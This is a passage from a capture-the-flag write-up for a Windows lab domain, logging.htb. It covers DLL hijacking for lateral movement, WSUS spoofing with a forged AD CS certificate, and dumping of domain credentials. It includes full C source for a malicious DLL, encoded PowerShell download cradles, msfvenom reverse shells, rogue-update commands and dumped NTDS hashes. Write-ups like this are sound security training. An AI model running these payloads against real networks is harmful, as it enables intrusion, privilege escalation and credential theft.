string text3 = "C:\\Program Files\\UpdateMonitor\\bin\\";
string text4 = "settings_update.dll";
string text5 = Path.Combine(text3, text4);
```

### 5.2.2 Native Library Loading (P/Invoke)



The binary explicitly imports the native `LoadLibrary` function from `kernel32.dll` to load the constructed path (`text5`).

```csharp
[DllImport("kernel32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
private static extern IntPtr LoadLibrary(string lpFileName);
```

**Conclusion:**

The use of `kernel32!LoadLibrary` confirms that the program expects a **native Windows DLL** and will follow the standard Windows DLL Search Order. The application attempts to load this DLL from the `\bin\` subdirectory. Because we established in section 5.1 that the **IT group** has inherited write access to this path, we can perform a **DLL Hijacking** attack. Since the binary is triggered by a scheduled task owned by `Administrator`, our malicious `settings_update.dll` will execute with elevated **SYSTEM** privileges.

## 5.3 Payload Generation (settings_update.dll)

Before compiling the payload, we verified the architecture of the target binary using the `file` command. The output confirmed that `UpdateMonitor.exe` is a 32-bit application (`PE32 executable`, `Intel i386`).

```bash
➜ file UpdateMonitor.exe
UpdateMonitor.exe: PE32 executable for MS Windows 6.00 (console), Intel i386 Mono/.Net assembly, 3 sections
```

Because the parent process is 32-bit, our malicious DLL must also be compiled as 32-bit; otherwise, the `LoadLibrary` call will fail. We create our payload in C, hooking the `DLL_PROCESS_ATTACH` reason to execute a PowerShell reverse shell cradle.

```c
// payload.c
#include <winsock2.h>
#include <windows.h>

#pragma comment(lib, "ws2_32")

__declspec(dllexport) void PreUpdateCheck() {
    // PowerShell cradle (UTF-16LE Base64 encoded)
    // Decodes to: IEX(New-Object Net.WebClient).downloadString("[http://10.10.16.25/shell.ps1](http://10.10.16.25/shell.ps1)")
    wchar_t cmd[] = L"powershell.exe -ep bypass -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIAMQA0AC8AcwBoAGUAbABsAC4AcABzADEAIgApAA==";

    STARTUPINFOW si = {0};
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE;

    PROCESS_INFORMATION pi = {0};

    CreateProcessW(NULL, cmd, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        PreUpdateCheck();
    }
    return TRUE;
}
```

We compile this payload on our attacker machine using the `i686` MinGW cross-compiler to generate the final 32-bit `settings_update.dll` file:

```bash
i686-w64-mingw32-gcc payload.c -shared -o settings_update.dll -lws2_32
```

## 5.4 Lateral Movement: Pivoting to Jaylee

To deploy the payload, we package it into an archive named `Settings_Update.zip`. Based on our earlier enumeration, a background process running as `jaylee.clifton` automatically extracts and interacts with updates placed in the `C:\ProgramData\UpdateMonitor\` directory.

First, we zip the compiled DLL on our attacker machine and verify its contents:

```bash
➜ zip Settings_Update.zip settings_update.dll
  adding: settings_update.dll (deflated 67%)

➜ unzip -l Settings_Update.zip
Archive:  Settings_Update.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
    94890  2026-04-22 21:37   settings_update.dll
---------                     -------
    94890                     1 file
```

Next, we stage a Netcat listener to catch the reverse shell callback:

```bash
➜ rlwrap -cAr ncat -lnvp 9294
```

From our existing `msa_health$` WinRM session, we download the ZIP archive, copy it to the target processing directory, and grant `Everyone` Full Control to ensure Jaylee's process can access it without permission errors:

```powershell
PS C:\temp> iwr http://10.10.16.25/Settings_Update.zip -o Settings_Update.zip

PS C:\temp> cp Settings_Update.zip C:\ProgramData\UpdateMonitor\Settings_Update.zip

PS C:\temp> icacls 'C:\ProgramData\UpdateMonitor\Settings_Update.zip' /grant 'Everyone:(F)'
processed file: C:\ProgramData\UpdateMonitor\Settings_Update.zip
Successfully processed 1 files; Failed processing 0 files
```

> Note: We use `icacls`, the built-in Windows utility for managing Access Control Lists (ACLs), to explicitly grant the `Everyone` group Full Control (`F`) over the transferred ZIP archive. Because the file was downloaded under our current `msa_health$` context, the default restrictive permissions would otherwise cause the target background process to hit an "Access Denied" error when attempting to extract our payload.

Within a few moments, the background process processes the archive, executing our malicious DLL. We receive a callback on our listener, successfully landing a shell as `jaylee.clifton`:

```bash
➜ rlwrap -cAr ncat -lnvp 9294
...[snip]...

PS C:\Windows\system32> whoami; hostname
logging\jaylee.clifton
DC01
```

Upon gaining access to `jaylee.clifton`'s profile via the reverse shell, we secure the user flag from the Desktop.

```powershell
PS C:\Users\jaylee.clifton> type Desktop\user.txt
[REDACTED]
```

<br>

## 5.3 Alternative Payload Generation & Lateral Movement (Metasploit)

For a faster, more streamlined approach, we can utilize `msfvenom` to generate the 32-bit malicious DLL and catch the callback using Metasploit's `multi/handler`.

First, we generate a Meterpreter reverse TCP DLL payload and package it into the expected `Settings_Update.zip` archive. Notably, `msfvenom` automatically defaults to the `x86` architecture, which perfectly aligns with our earlier analysis of the 32-bit `UpdateMonitor.exe` binary.

```bash
# Generate 32-bit malicious-dll
➜ msfvenom \
    -p windows/meterpreter/reverse_tcp \
    LHOST=tun0 LPORT=9294 \
    -f dll -o settings_update.dll

# Compress it as zip archive & check it
➜ zip Settings_Update.zip settings_update.dll
➜ unzip -l Settings_Update.zip
```

From our existing WinRM session, we download the ZIP file to a temporary location, copy it to the `UpdateMonitor` processing directory, and grant `Everyone` Full Control to prevent Access Denied errors during extraction:

```powershell
PS C:\temp> iwr http://10.10.16.25/Settings_Update.zip -o Settings_Update.zip

PS C:\temp> cp Settings_Update.zip C:\ProgramData\UpdateMonitor\Settings_Update.zip

# Grant permission for everyone
PS C:\temp> icacls 'C:\ProgramData\UpdateMonitor\Settings_Update.zip' /grant 'Everyone:(F)'

processed file: C:\ProgramData\UpdateMonitor\Settings_Update.zip
Successfully processed 1 files; Failed processing 0 files
```

Simultaneously, we stage the Metasploit listener on our attacker machine. Once the background process unzips the archive and triggers the payload, the DLL is sideloaded, and we successfully catch a Meterpreter session as `jaylee.clifton`:

```bash
➜ msfconsole -qx 'use exploits/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 9294; exploit'
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => tun0
LPORT => 9294
[*] Started reverse TCP handler on 10.10.16.25:9294
[*] Sending stage (199238 bytes) to 10.129.62.234
[*] Meterpreter session 1 opened (10.10.16.25:9294 -> 10.129.62.234:55490) at 2026-04-22 21:59:33 +0530

meterpreter > getuid
Server username: logging\jaylee.clifton
```

---

# 6. Privilege Escalation: WSUS Spoofing

## 6.1 Post-Exploitation Enumeration (Jaylee)

Further enumeration of the user's home directory reveals an interesting HTML file located in the `Documents\Tickets` folder. The filename indicates a past support incident regarding WSUS (Windows Server Update Services), which aligns with the ports discovered during the initial Nmap scan.

```powershell
PS C:\Users\jaylee.clifton> tree . /a /f
Folder PATH listing
Volume serial number is C007-7498
C:\USERS\JAYLEE.CLIFTON
+---Desktop
|       user.txt
|
+---Documents
|   \---Tickets
|           Incident_4922_WSUS_Remediation_ViewExport.html
+---Downloads
...
```

## 6.2 WSUS Misconfiguration Discovery

Rendering the contents of `Incident_4922_WSUS_Remediation_ViewExport.html` exposes a highly vulnerable, custom workaround implemented by the sysadmin to force Windows updates.

<p align="center">
  
</p>

**Technical Analysis:**
The support ticket provides the exact blueprint for our privilege escalation path:
1. **Target Endpoint:** The Domain Controller is configured to pull updates from a custom staging endpoint: `wsus.logging.htb`.
2. **DNS Hijacking Opportunity:** The sysadmin notes that "DNS is still not updated". This implies we can manipulate local resolution (such as modifying the `C:\Windows\System32\drivers\etc\hosts` file) to point `wsus.logging.htb` to our attacker IP.
3. **Aggressive Execution:** A scheduled task named `ForceSync` runs every 2 minutes (120s), forcibly wiping the WSUS cache (`SoftwareDistribution`) and requesting a new update catalog.

Because the Windows Update service runs under the context of **NT AUTHORITY\SYSTEM**, we can leverage our current privileges to modify the `hosts` file, stand up a rogue WSUS server (e.g., using `pywsus`), and push a malicious PsExec binary masquerading as a Windows update. Within 120 seconds, the `ForceSync` task will execute our payload as SYSTEM.

### 6.2.1 Concept Overview: WSUS, DNS Hijacking, and AD CS (ESC17)

Before executing the attack, it is important to understand why WSUS is a prime target for privilege escalation and how multiple vulnerabilities chain together in this scenario.

**Windows Server Update Services (WSUS)** allows IT administrators to centralize the deployment of updates. The local Windows Update service requests, downloads, and installs these patches, inherently operating under the highest local privilege level: **NT AUTHORITY\SYSTEM**.

**The Attack Vector:**
If an attacker can manipulate how a target resolves the WSUS server's hostname (e.g., via DNS hijacking), they can redirect the update traffic to a rogue WSUS server (using tools like `pywsus`). The rogue server then feeds the target a malicious executable masquerading as a legitimate Microsoft update, which the target eagerly executes as SYSTEM.

**The HTTPS Hurdle & ESC17:**
Historically, WSUS attacks relied on targets communicating over unencrypted HTTP (port 8530). However, modern deployments (including this target) enforce HTTPS (port 8531). This means DNS hijacking alone will fail; the Windows Update client will immediately drop the connection if the rogue server does not present a TLS certificate explicitly signed and trusted by the domain's Certificate Authority.

This is where the **AD CS ESC17** vulnerability bridges the gap. ESC17 occurs when an Active Directory Certificate Services template is misconfigured to allow low-privileged users to supply arbitrary Subject Alternative Names (SANs) during enrollment. By abusing this, we can request a perfectly valid, domain-trusted certificate for the spoofed `wsus.logging.htb` hostname. Combining the DNS hijack with this ESC17-forged certificate allows us to seamlessly intercept the encrypted WSUS traffic and deliver our SYSTEM payload without triggering trust errors.

### 6.2.2 Verifying WSUS Configuration via Registry

To confirm the details found in the support ticket, we query the Windows registry from our reverse shell to inspect the active Windows Update policies.

```powershell
PS C:\Users\jaylee.clifton> reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" /s

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    [https://wsus.logging.htb:8531](https://wsus.logging.htb:8531)
    AcceptTrustedPublisherCerts    REG_DWORD    0x1
    SetProxyBehaviorForUpdateDetection    REG_DWORD    0x0
    WUStatusServer    REG_SZ    [https://wsus.logging.htb:8531](https://wsus.logging.htb:8531)
    UpdateServiceUrlAlternate    REG_SZ    [https://wsus.logging.htb:8531](https://wsus.logging.htb:8531)

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU
    AUOptions    REG_DWORD    0x4
    NoAutoUpdate    REG_DWORD    0x0
    AutomaticMaintenanceEnabled    REG_DWORD    0x1
    ScheduledInstallDay    REG_DWORD    0x0
    ScheduledInstallEveryWeek    REG_DWORD    0x1
    ScheduledInstallTime    REG_DWORD    0x3
    UseWUServer    REG_DWORD    0x1
```

**Technical Analysis:**
The registry output validates the sysadmin's notes and provides the exact connection parameters:
* **`UseWUServer` (0x1):** Confirms the Domain Controller is actively configured to use a custom update server rather than Microsoft's default internet servers.
* **`WUServer` / `WUStatusServer`:** Explicitly defines the target endpoint as `https://wsus.logging.htb:8531`.

This confirms the machine is fetching updates from the internal hostname over **HTTPS (port 8531)**. Because the connection requires TLS encryption, a standard plaintext WSUS spoofing attack (port 8530) will not work out of the box. The Domain Controller will reject our rogue updates unless we can successfully spoof the TLS connection or downgrade the process.

## 6.3 DNS Hijacking via Impacket (dnstool.py)

With the target WSUS endpoint identified, our next step is to hijack the DNS resolution for `wsus.logging.htb`. While we could modify the local `hosts` file via our reverse shell, a more robust method is to inject a malicious A-record directly into the Active Directory DNS zone. We can achieve this remotely using the compromised `svc_recovery` account credentials.

Because the Domain Controller's clock is significantly skewed (set to April 2026), we must wrap our Impacket commands with a `fake_time` script to synchronize our Kerberos requests, preventing authentication failures due to time desynchronization.

First, we request a Ticket Granting Ticket (TGT) for the `svc_recovery` user:

```bash
➜ fake_time dc01.logging.htb \
getTGT.py 'logging.htb/svc_recovery:Em3rg3ncyPa$$2026'
```

Next, we export the resulting ccache file and execute `dnstool.py` to add an A-record pointing `wsus.logging.htb` to our attacker IP (`10.10.16.25`):

```bash
➜ env KRB5CCNAME=svc_recovery.ccache \
fake_time dc01.logging.htb \
dnstool \
    -u 'logging.htb\svc_recovery' -k \
    --action add \
    --type A \
    --record wsus.logging.htb \
    --zone logging.htb \
    --data $attacker_ip \
    -dns-ip $target_ip \
    dc01.logging.htb

...[snip]...
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

Finally, we switch back to our `jaylee.clifton` PowerShell session on the Domain Controller and use `nslookup` to verify that the system is now resolving the spoofed DNS record:

```powershell
PS C:\temp> nslookup wsus.logging.htb
Server:  localhost
Address:  127.0.0.1

Name:    wsus.logging.htb
Address:  10.10.16.25
```

The target is now primed to route all WSUS update requests directly to our attacker machine.

## 6.4 TLS Certificate Generation (AD CS)

As discovered in the registry enumeration, the Domain Controller expects to communicate with the WSUS server over HTTPS (port 8531). If we attempt to spoof the WSUS server without a trusted TLS certificate, the Windows Update client will reject the connection.

To bypass this, we can abuse Active Directory Certificate Services (AD CS). Since `jaylee.clifton` is a domain user, we can request a valid certificate from the domain's Certificate Authority. We upload `Certify.exe` to the target and request a certificate using the `UpdateSrv` template, explicitly setting the Subject Alternative Name (DNS) to our spoofed endpoint: `wsus.logging.htb`.

```powershell
PS C:\temp> .\Certify.exe request `
--ca "DC01.logging.htb\logging-DC01-CA" `
--template UpdateSrv `
--dns wsus.logging.htb

    _____         _   _  __
   / ____|       | | (_)/ _|
  | |     ___ _ __| |_ _| |_ _   _
  | |    / _ \ '__| __| |  _| | | |
  | |___|  __/ |  | |_| | | | |_| |
   \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
   v2.0.0

[*] Action: Request a certificate

[*] Current user context    : logging\jaylee.clifton
[*] No subject name specified, using current context as subject.

[*] Template                : UpdateSrv
[*] Subject                 : CN=jaylee.clifton, CN=Users, DC=logging, DC=htb
[*] Subject Alt Name(s)     : wsus.logging.htb

[*] Certificate Authority   : DC01.logging.htb\logging-DC01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 7

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqhkiG9w0BBwGggCSABIID6DCCBW....[snip]...AYQB5AGwAZQBlAC4AYwBsAGkAZgB0AG8AbgAAAAAAAAAAAAAAAAAAAAA=

Certify completed in 00:00:04.5711375
```

The CA successfully issues the certificate because it trusts the domain user and the template allows SAN specification. `Certify.exe` outputs the certificate and private key as a Base64-encoded PFX blob. Our next step is to convert this PFX into usable PEM formats for our rogue WSUS server.


## 6.5 Certificate Preparation

We copy the Base64-encoded PFX blob provided by `Certify.exe` and decode it on our attacker machine, saving the binary output as `wsus.pfx`.

```bash
➜ echo 'MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA....[snip]...AYQB5AGwAZQBlAC4AYwBsAGkAZgB0AG8AbgAAAAAAAAAAAAAAAAAAAAA=' | base64 -d > wsus.pfx
```

This gives us the raw PKCS#12 archive containing both the spoofed certificate and its associated private key. To use this with our rogue WSUS server (which expects PEM formatting), we will need to extract the key and certificate from this archive.

## 6.6 PEM Extraction (Certipy)

To extract the usable components from our `wsus.pfx` archive, we utilize `certipy`. We run the tool twice: first to extract the public certificate (`-nokey`), and then to extract the private key (`-nocert`).

```bash
➜ certipy cert -pfx wsus.pfx -nokey -out wsus.crt
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Data written to 'wsus.crt'
[*] Writing certificate to 'wsus.crt'

➜ certipy cert -pfx wsus.pfx -nocert -out wsus.key
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Data written to 'wsus.key'
[*] Writing private key to 'wsus.key'
```

Finally, we concatenate the certificate and the private key into a single `wsus.pem` file. This combined file is exactly what our rogue WSUS server needs to successfully spoof the TLS connection and serve the malicious update over HTTPS (port 8531) without triggering trust errors on the target.

```bash
➜ cat wsus.crt wsus.key > wsus.pem
```

## 6.7 Rogue WSUS Exploitation & SYSTEM Shell

To ensure the rogue WSUS server handles the incoming HTTP Host headers correctly, we first map the spoofed domain to `127.0.0.1` in our attacker machine's local `/etc/hosts` file.

```bash
➜ echo "127.0.0.1 wsus.logging.htb" | sudo tee -a /etc/hosts
127.0.0.1 wsus.logging.htb
```

We then stage a Netcat listener to catch the final SYSTEM callback.

```bash
➜ rlwrap -cAr ncat -lnvp 9295
```

With the listener ready and our valid `wsus.pem` TLS certificate prepared, we launch **wsuks** to act as the malicious update server. We instruct it to serve Microsoft's `PsExec64.exe` as a fake update, passing arguments to execute a Base64-encoded PowerShell reverse shell cradle as the SYSTEM account (`/s`).

Within 120 seconds, the Domain Controller's scheduled `ForceSync` task triggers. The Windows Update client connects to our server over HTTPS (port 8531), accepts our generated certificate, and requests the update catalog. It automatically downloads and executes our payload.

```bash
➜ sudo wsuks --serve-only \
    --WSUS-Server wsus.logging.htb \
    --tls-cert wsus.pem \
    -I tun0 \
    -c '/accepteula /s powershell.exe -ep bypass -nop -w hidden -e "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIAMQA0AC8AcwBoAGUAbABsAC4AcABzADEAIgApAA=="'

[+] Command to execute:
PsExec64.exe /accepteula /s powershell.exe -ep bypass -nop -w hidden -e "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIAMQA0AC8AcwBoAGUAbABsAC4AcABzADEAIgApAA=="
[*] ===== Starting Web Server =====
[*] Using TLS certificate 'wsus.pem' for HTTPS WSUS Server
[*] Starting WSUS Server on 10.10.16.25:8531...
[*] Serving executable as KB: 4267809
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "[http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetConfig](http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetConfig)"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "[http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie](http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie)"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "[http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/SyncUpdates](http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/SyncUpdates)"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "[http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie](http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie)"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "[http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetExtendedUpdateInfo](http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetExtendedUpdateInfo)"
[+] Received GET request: /4baf9853-d2e9-42c8-856c-342a5d11ddda/PsExec64.exe
[+] GET request for exe: /4baf9853-d2e9-42c8-856c-342a5d11ddda/PsExec64.exe
----------------------------------------
...[snip]...
```

> **Note**:
>
> While the `ForceSync` scheduled task on this machine is configured to run every 120 seconds, waiting for a timer in a live engagement is not always ideal. On modern Windows systems (Server 2016/2019 and Windows 10+), the **Update Session Orchestrator (USO)** has replaced the older `wuauclt.exe` utility.
>
> To force the Domain Controller to check for updates immediately and connect to our rogue WSUS server, we can use the **UsoClient** utility from our initial shell:
>
> ```powershell
> PS C:\temp> UsoClient StartScan
> ```

Simultaneously, our Netcat listener catches the callback. We verify our privileges and successfully compromise the Domain Controller, allowing us to retrieve the final root flag.

```bash
PS C:\Windows\system32> whoami; hostname
nt authority\system
DC01
```

A quick enumeration of the `C:\Users` directory reveals that the final objective is not in the default Administrator folder. Instead, we locate and retrieve the root flag from `toby.brynleigh`'s Desktop.

```bash
PS C:\Users> tree . /a /f
Folder PATH listing
Volume serial number is C007-7498
...[snip]...

C:\USERS
\---toby.brynleigh
    +---3D Objects
    +---Contacts
    +---Desktop
    |       root.txt

PS C:\Users> type toby.brynleigh\Desktop\root.txt
[REDACTED]
```

## 6.8 Epilogue: Full Domain Dominance (NTDS Dump)

Although we have already secured the root flag and effectively compromised the Domain Controller, a true penetration test often requires demonstrating full domain dominance by extracting all Active Directory credentials.

To achieve this, we can leverage our existing `SYSTEM` shell to modify the built-in Domain Administrator account. First, we reset the Administrator password to a known value (`Password123!`).

However, simply resetting the password might not be enough for remote dumping if the account is part of the **Protected Users** group, which restricts NTLM authentication and prevents certain credential delegation. To ensure our remote tools can authenticate cleanly, we remove the Administrator from this group:

```powershell
PS C:\Users\Administrator\Documents> net user Administrator Password123!
The command completed successfully.

PS C:\Users\Administrator\Documents> Remove-ADGroupMember -Identity "Protected Users" -Members "Administrator" -Confirm:$false
```

With the password reset and the protection removed, we can pivot back to our attacker machine. We use **NetExec** (formerly CrackMapExec) to authenticate over SMB as the Domain Administrator and dump the `NTDS.dit` file—the database containing every username and password hash in the Active Directory environment.

```bash
➜ nxc smb dc01.logging.htb \
        -u administrator -p 'Password123!' \
        --ntds
SMB         10.129.62.234    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.62.234    445    DC01             [+] logging.htb\administrator:Password123! (Pwn3d!)
SMB         10.129.62.234    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.62.234    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         10.129.62.234    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.62.234    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:66ff41c8e28783a47fd7617f1f0125f0:::
SMB         10.129.62.234    445    DC01             logging.htb\svc_recovery:2104:aad3b435b51404eeaad3b435b51404ee:fbeb47c9c100020d3b9ebaf1ce839fb3:::
SMB         10.129.62.234    445    DC01             logging.htb\jaylee.clifton:2105:aad3b435b51404eeaad3b435b51404ee:1abff5519c569c11dc713706b4a15ae0:::
SMB         10.129.62.234    445    DC01             logging.htb\monique.chip:2106:aad3b435b51404eeaad3b435b51404ee:5595521651b7510b86438f7452606abf:::
SMB         10.129.62.234    445    DC01             logging.htb\kyson.abel:2107:aad3b435b51404eeaad3b435b51404ee:a50981f25606aeaa0d442f0fcbbce699:::
SMB         10.129.62.234    445    DC01             logging.htb\fable.milford:2108:aad3b435b51404eeaad3b435b51404ee:26a4b1da75600cdd7a3d77789d40a889:::
SMB         10.129.62.234    445    DC01             logging.htb\wellington.kylan:2109:aad3b435b51404eeaad3b435b51404ee:20a6efc7a20a14021a717fa06cd250f8:::
SMB         10.129.62.234    445    DC01             logging.htb\serina.philander:2110:aad3b435b51404eeaad3b435b51404ee:42961be97eb21e2fa7664b115e2ac3af:::
SMB         10.129.62.234    445    DC01             logging.htb\wallace.everette:2111:aad3b435b51404eeaad3b435b51404ee:40e28a964e1a6a6512d0ebc70f1ca811:::
SMB         10.129.62.234    445    DC01             logging.htb\toby.brynleigh:2112:aad3b435b51404eeaad3b435b51404ee:ac384497550a56937cd6edd784fb221c:::
SMB         10.129.62.234    445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b4d05e08453f856b0ff4af1125157a84:::
SMB         10.129.62.234    445    DC01             msa_health$:2113:aad3b435b51404eeaad3b435b51404ee:603fc24ee01a9409f83c9d1d701485c5:::
```

At this point, we own the network and every account within it, completing the total compromise of the `logging.htb` domain.

---

# 7. Conclusion

The **Logging** machine presents a highly realistic Windows environment that highlights the dangers of combining "temporary" IT workarounds with underlying Active Directory misconfigurations. The attack path required a solid understanding of Windows internal networking, Active Directory Certificate Services (AD CS), and the mechanics of Windows Server Update Services (WSUS).

### Summary of the Attack Path
1. **Initial Access:** Leveraging exposed or weak credentials to gain a foothold via WinRM, eventually dumping the local SAM to extract the `msa_health$` machine account hash.
2. **Local Enumeration:** Discovering a support ticket in a user's directory detailing a hacky, automated WSUS workaround (`ForceSync` scheduled task) pointing to a staging endpoint (`wsus.logging.htb`).
3. **DNS Hijacking:** Abusing excessive permissions on the `svc_recovery` account to inject a malicious A-record into the Active Directory DNS zone, pointing the staging endpoint to our attacker IP.
4. **AD CS Abuse (ESC17):** Exploiting a vulnerable certificate template (`UpdateSrv`) that allowed unprivileged users to specify arbitrary Subject Alternative Names (SANs). This allowed us to forge a valid TLS certificate for the spoofed WSUS domain.
5. **Privilege Escalation & Domain Dominance:** Standing up a rogue WSUS server equipped with the forged certificate to hijack the automated update task. This allowed for two distinct paths to full compromise:
    * **Path A (Interactive):** Serving a malicious `PsExec64.exe` binary bundled with a reverse shell to catch an interactive **NT AUTHORITY\SYSTEM** session, allowing us to reset the Administrator password and dump the NTDS.
    * **Path B (Stealth):** Serving a Base64-encoded PowerShell command via PsExec to silently add the previously compromised `msa_health$` account to the **Domain Admins** group, enabling immediate Pass-the-Hash (PtH) and NTDS extraction.

---

# 8. Appendix

## Appendix A: Alternative Privilege Escalation Path (Direct Domain Dominance)

If you prefer a stealthier approach—or want to avoid catching an interactive reverse shell and manually resetting the Administrator password—you can modify the rogue WSUS payload to directly elevate an account we already control.

Since we previously extracted the NTLM hash for the `msa_health$` machine account, we can instruct the `ForceSync` task to execute a PowerShell command that adds `MSA_HEALTH$` directly to the **Domain Admins** group.

First, we craft the PowerShell command and encode it in Base64 (UTF-16LE) to avoid parsing errors in the command line:

```bash
➜ echo -n 'Add-ADGroupMember -Identity "Domain Admins" -Members "MSA_HEALTH$"' | iconv -t UTF-16LE | base64 -w0
QQBkAGQALQBBAEQARwByAG8AdQBwAE0AZQBtAGIAZQByACAALQBJAGQAZQBuAHQAaQB0AHkAIAAiAEQAbwBtAGEAaQBuACAAQQBkAG0AaQBuAHMAIgAgAC0ATQBlAG0AYgBlAHIAcwAgACIATQBTAEEAXwBIAEUAQQBMAFQASAAkACIA
```

Next, just like in our previous attack, we map the spoofed domain locally and launch `wsuks`, passing our newly encoded command to PsExec:

```bash
➜ echo "127.0.0.1 wsus.logging.htb" | sudo tee -a /etc/hosts
127.0.0.1 wsus.logging.htb

➜ sudo wsuks --serve-only \
    --WSUS-Server wsus.logging.htb \
    --tls-cert wsus.pem \
    -I tun0 \
    -c '/accepteula /s powershell.exe -ep bypass -e "QQBkAGQALQBBAEQARwByAG8AdQBwAE0AZQBtAGIAZQByACAALQBJAGQAZQBuAHQAaQB0AHkAIAAiAEQAbwBtAGEAaQBuACAAQQBkAG0AaQBuAHMAIgAgAC0ATQBlAG0AYgBlAHIAcwAgACIATQBTAEEAXwBIAEUAQQBMAFQASAAkACIA"'
```

Once the 120-second scheduled task loop triggers, the Domain Controller executes the update, silently promoting the machine account.

We can verify the exploit worked by querying LDAP with **NetExec**, passing the `msa_health$` account and its NTLM hash. As shown below, `msa_health$` is now a confirmed member of the `Domain Admins` group:

```bash
➜ nxc ldap dc01.logging.htb \
        -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5' \
        --groups 'Domain Admins'
LDAP        10.129.62.234    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:logging.htb) (signing:None) (channel binding:Never)
LDAP        10.129.62.234    389    DC01             [+] logging.htb\msa_health$:603fc24ee01a9409f83c9d1d701485c5
LDAP        10.129.62.234    389    DC01             Administrator
LDAP        10.129.62.234    389    DC01             toby.brynleigh
LDAP        10.129.62.234    389    DC01             msa_health$
```

With Domain Admin privileges successfully granted to an account we hold the hash for, we can immediately utilize Pass-the-Hash (PtH) to dump the active directory database (`NTDS.dit`) and compromise the entire network.

```bash
➜ nxc smb dc01.logging.htb \
        -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5' \
        --ntds
SMB         10.129.62.234    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.62.234    445    DC01             [+] logging.htb\msa_health$:603fc24ee01a9409f83c9d1d701485c5 (Pwn3d!)
SMB         10.129.62.234    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.62.234    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a0c1d1bed9126632f5f1f2b3f790bdb5:::
```

---

## Appendix B: Remote Identity Pivot (TGT Extraction)

Rather than performing certificate enrollment directly on the target host (which requires dropping more binaries or executing complex commands on the DC), we can "teleport" our identity back to our attacker machine. This method is cleaner and allows us to use our full suite of local tools.

### 1. Extracting the TGT with Rubeus

From our reverse shell as `jaylee.clifton`, we execute Rubeus with the `tgtdeleg` action. This leverages the GSS-API to request a delegation-ready TGT for the current user without requiring administrative privileges.

```powershell
PS C:\temp> .\Rubeus.exe tgtdeleg /nowrap

[*] Action: Request Fake Delegation TGT (current user)
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.logging.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation request success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] base64(ticket.kirbi):

